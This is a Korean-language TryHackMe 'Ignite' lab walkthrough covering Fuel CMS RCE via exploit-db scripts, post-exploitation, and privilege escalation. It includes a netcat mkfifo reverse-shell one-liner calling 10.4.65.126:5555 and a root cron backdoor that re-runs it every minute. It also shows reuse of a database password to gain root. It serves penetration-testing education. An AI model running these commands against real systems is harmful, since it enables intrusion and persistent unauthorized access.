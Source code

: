 <h1>Tryhackme - ignite(2)</h1>

<h2>#3 Exploit</h2>

이전에 searchsploit 으로 취약점을 파악 했다.
RCE와 SQL injection 두가지 설명을 앞서 하였고 이제는 exploit을 할 것이다.
우리가 가지고 있는 정보로 활용해야할 취약점에 대해서 조금만 더 파악하고 가보자.

발견된 취약점은 정말 다양하게 활용이 가능하다.
- 공격된 PC를 내마음대로 조종을 하거나
- 다른 사람의 개인정보를 열람
- 다른 사람이 시킨 주문을 취소하거나 어떤 게시판에 달린 댓글을 삭제하기 등등
취약점에 따라 다르게 활용을 할 수 있다.

내가 하고 있는 취약점은 내가 해킹하는 PC를 어떤 명령어로든 실행을 할 수 있게 할 것이다(RCE를 사용할 것이다.)

취약점을 조사할 때 가장 우선순위로 봐야하는 취약점이 RCE다 RCE는 다른 말로도 표현이 되는데
Remote Code Execution = Code injection = Command Execution = Command injection = overflow 등등

#3.1 RCE활용

RCE를 수행 시켜줄 프로그래밍 코드를 작성해야하는데 칼리리눅스에는 이 취약점들을 이용하여 사용할 수 있는 공격 코드들이 기본적으로 내장되어있다. 만약 이것이 없다면 google에서 검색해서 사용하면 된다

파일의 경로는 `/usr/share/exploitdb/exploits/~` 이곳에 저장되어있다.
경로가 기억이 안나면 `find / -name "47138.py" 2> /dev/null` 

```
ls -l /usr/share/exploitdb/exploits/linux/webapps/47138.py
cp /usr/share/exploitdb/exploits/linux/webapps/47138.py ./exploit1.py

cp /usr/share/exploitdb/exploits/linux/webapps/49487.rb ./exploit2.rb

cp /usr/share/exploitdb/exploits/linux/webapps/50477.py ./exploit3.py
```

1. 공격 코드가 txt 일때 -> 취약점을 설명해둔 파일 --> 파일을 가지고 할 순 없고 직접 공격 코드를 만들어 사용하면 됨
2. .py -> python exploit.py
3. .rb -> ruby exploit.rb
4. .c -> c언어 코드로 작성되어서 실행하기 위해선 컴파일을 해야하는데 리눅스에서는 gcc를 이용해서 하면된다 --> gcc exploit.c -o exploit

![이미지](/assets/ignite/5.png)

에러가 발생했는데 여기서 알고 있으면 좋은 점 파이썬은 2가 있고 3가 있는데 이 에러처럼 print옆에 원래 ()이러한 괄호가 들어가는데 만약 괄호가 없으면 python2 이다 이럴땐 `python2` 라고 붙여서 실행하면된다


![이미지](/assets/ignite/6.png)

실행은 되었지만 다시 이상한 에러가 발생했다. HTTPConnectionPool 에러가 발생 -> 뭔가 연결하면서 에러가 발생 한 것인데, 우리가 공격할 IP는 127.0.0.1:8080이 아니라서 코드를 변경해 줘야한다.


ruby 파일을 실행 시키면 docopt가 없다는 에러가 발생하는데 이때는 `gem install docopt` 를 이용하여 설치를 한후에 실행

![이미지](/assets/ignite/7.png)

id 명령어를 정상적으로 실행된 모습
공격한 시스템에서 id라는 명령어가 정상적으로 실행된 모습이다. (내 PC에서의 id 명령어를 실행한 것이 아님.)

![이미지](/assets/ignite/8.png)

3번째 취약점에서도 정상적으로 실행되었다. 
우리가 원하는 shell을 획득한 것이다 하지만 다른 디렉터리로 이동을 하면 이동이 안되는데 이것으로 보아 온전히 완벽히 shell을 획득하지 못한 것이라고 볼 수 있다. 1회용 shell 이라고 보면된다. 자유롭게 사용이 안된다는 것이라서 최고 사용자 권한을 얻기 위해서 작업을 해야한다. 이것을 `POST-Exploit` 이라고 한다.

<h2>#4 Reverse Shell </h2>

이전에는 shell 까지 획득을 하였는데 온전한 shell을 얻기 위해서 `Reverse Shell` 이라는 기법을 사용할 것이다.

#4.1 reverse shell
| reverse shell 은 거꾸로 연결을 받는다 라는 뜻이다.

기본적으로 악성코드를 설치할 때는 공격 타켓에 설치를 하고 프로세스를 실행하여 열린 포트로 접근을 하는데 이것을 `Bind Shell` 이라고 한다. 이것을 거꾸로 하는 것을 reverse shell 이라고 하는데
왜 거꾸로 하는가??
-> 악성 프로세스를 실행시키면 피해자 PC에서 특정 포트를 여는 것 자체가 의심스럽고 또한 방화벽이라는 보안 장치가 실행되고 있어 뚤리지 않을 것이다. 그래서 `Bind Shell`은 잘 먹히지가 않을 것이다.

reverse shell은 반대로 공격자 측에서 포트를 여는 것이다. 즉 프로세스를 피해자 PC에서 실행 시키는 것이 아닌 공격자 PC에서 실행시킨 후에 공격자 PC의 포트로 연결되도록 악성코드를 만들어 피해자에서 실행시켜서 컴퓨터를 연결하는 기법이다.

*흔히들 방화벽에서는 인바운드 규칙은 굉장히 디테일하게 까다롭게 하지만 아웃바운드 규칙은 까다롭게 하지 않거나 아예 설정조차 하지 않는 허점을 이용해서 해킹을 하는 것이다.*

#4.2 활용

1. 공격자 컴퓨터에서 포트를 열고 있기.
 - `nc -nlvp` : 특정 포트를 열겠다.

 ![이미지](/assets/ignite/9.png)

2. 피해자 PC에서 공격자 PC로연결을 한다.
 - google 에서 reverse shell cheat sheet 라고 검색한 후에 코드 획득
 - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.4.65.126 5555 >/tmp/f` nc mkfifo를 사용 (피해자 PC에서 명령어 입력)

 ![이미지](/assets/ignite/10.png)
 이 모습이 reverse shell을 획득한 모습이다. 이 상태에서는 디렉터리 경로도 이동이 가능하다 하지만 아직도 살짝 부족한 점이 있다면 최고 사용자(root) 사용자가 아닌 것이다.

<h2>#5 Post-Exploit </h2>

내가 접속한 컴퓨터를 정말 내것을 완전 내것으로 만드는 작업이다.
대표적으로 *권한 상승* & *Back Door* 심기를 해 볼것이다.

#5.1 권한 상승

정말 많은 방법이 있지만 기본적인 원리는 이 시스템에서 존재하는 정보들을 활용해서 권한을 상승시킬 수 있는 요소를 파악하는 것이다. 그러기 위해선 이 시스템을 먼저 파악해야한다.

1. 계정 정보 확인 (/etc/passwd)
 - `cat /etc/passwd | grep sh` 
 - 계정에 root 계정 하나 밖에 없지만, 만약 마리오계정(일반사용자 계정)이 있으면 마리오계정을 해킹한 다음에 root로 올라갈 수도 있는 방법이 있다.

2. fuel 웹 페이지를 사용하고 있기 때문에 fuel 디렉터리에 들어가 확인
 - ![이미지](/assets/ignite/11.png)
 - 웹 서버를 해킹 했다면 가장 먼저 찾아야 하는 것은 DB에 대한 정보이다. 그래서 DB정보에 대한 것은 핵심적인 디렉터리에 보면 무조건 있을 수 밖에 없다(연동이 되려면 DB에 대한 정보를 가지고 있어야 연동이 되기 때문에)

3. DB 계정 정보 찾기
 - 보통 설정 파일에 많이 있음
 - `find ./ -name "*conf* 2> /dev/null`
 - ![이미지](/assets/ignite/12.png)
 - modules는 모듈이기 때문에 아마 없을 것이고, application 부분에 있지 않을까 라는 생각이 든다
 - application/config 안에 보면 database.php 라는 파일이 있는데 역시나 db에 대한 정보가 들어가 있었다.
 - ![이미지](/assets/ignite/13.png)
 - db의 아이디가 root 이다..나는 권한 상승을 하기 위해서 root 계정으로 로그인해야하는데 db의 패스워드가 혹시 root의 패스워드 이지 않을까?? 라는 것을 `크리덴셜 스터핑` 이라고 한다. (실제로 공격률이 높다고 한다. 나 또한 똑같은 비밀번호를 돌려 쓰기 때문이다)

4. DB 정보로 root 사용자 로그인 해보기
 - ![이미지](/assets/ignite/14.png)
 - `su root` 로 전환을 해보려 했지만 실패 했다. 이 에러를 해결해주기 위해서 자주 사용해야할 명령어가 있다. 쉘을 얻었는데 인터렉티브한 쉘을 얻지 못했을 때 사용하면 된다.
 - `python -c "import pty;pty.spawn('/bin/bash')"`
 - ![이미지](/assets/ignite/15.png)
 - 최고 사용자 까지 획득을 하였다.

권한 상승의 원칙
1. 이 시스템에서 얻을 수 있는 정보를 찾는다
2. 만약 정보를 찾을 수 없다면 DB안에 있는 정보를 보거나 OS 버전 정보를 찾아 `privilege escalation` (권한 상승) 취약점을 찾아 실행을 해주면된다.

#5.2 Back Door 설치

이 시스템에 또 들어오기 위해서 똑같은 작업을 반복하게 하지 않게 하기 위해서 Back Door를 설치한다.
cron을 이용하여 실행할 것인데, 리눅스에서 사용하는 스케쥴 시스템이다.

1. cron 에 추가하기
 - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.4.65.126 5555 >/tmp/f`이 명령어를 1분 마다 실행하게 만들 것이다.
 - /etc/crontab에서 설정할 수 있다.
 - `echo "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.4.65.126 5555 >/tmp/f" >> /etc/crontab` -> 매 분마다 root 권한으로 명령어를 실행시켜줘.
 - ![이미지](/assets/ignite/16.png)

2. 다시 재접속 하기
 - crontab에 넣어졌기 때문에 이제 1분마다 명령어가 실행되기 때문에 언제든지 들어갈 수 있게 된다.
 - 재접속 할땐 `nc -nlvp 5555` 명령어를 통해서 접속을 하면 된다.


정리
Post-exploit은 exploit(shell 획득)이후에 일어나는 모든 행동을 post-exploit 단계에 넣을 수 있다.
권한 상승이나 백도어 설치는 정말 일부에 불과하다. 다른것은 무엇을 할 수 있냐면 이 시스템 옆에 있는 다른 연결된 PC를 공격할 수도 있거나 중요한 파일을들 가져오거나 랜섬웨어를 걸 수도 있을 것이고 등등 다양한 작업들을 Post-exploit으로 이야기 할 수 있을 것이다.


